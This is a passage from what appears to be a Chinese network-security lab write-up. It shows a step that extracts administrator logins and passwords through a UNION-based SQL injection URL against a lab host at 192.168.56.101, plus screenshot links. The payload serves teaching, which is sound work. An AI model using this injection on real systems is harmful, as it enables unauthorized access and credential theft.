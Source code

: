        ![](/网络安全/chap0x07/images/2-7-C-G-1.png)
       
   - D.利用sql假冒登陆
     - a. 获取管理员登录密码,在浏览器地址栏输入
       ```bash
       192.168.56.101/cat.php?id=0 UNION SELECT 1,concat(id,':',login,':',password),3,4 FROM users
       ```
       ![](/网络安全/chap0x07/images/2-7-D-A-1.png)
